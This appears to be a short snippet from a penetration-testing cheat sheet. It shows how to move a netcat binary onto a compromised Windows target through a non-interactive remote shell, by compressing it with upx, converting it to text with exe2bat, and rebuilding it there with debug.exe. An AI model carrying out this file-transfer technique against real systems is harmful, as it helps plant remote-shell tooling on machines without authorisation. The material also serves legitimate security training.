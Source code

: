 ```
# In a case of a non-interactive shell, you can transfer up to 64k of memory
# You can increase that size by compressing the willing file (let's say nc.exe) using:
upx -9 nc.exe

# nc.exe has now been compressed but remains functional
# Now convert it to text instructions using exe2bat
wine exe2bat.exe nc.exe nc.txt

# Then copy paste the content of nc.txt to the remote shell !
# You'll get a proper nc.exe using debug.exe from the target !

```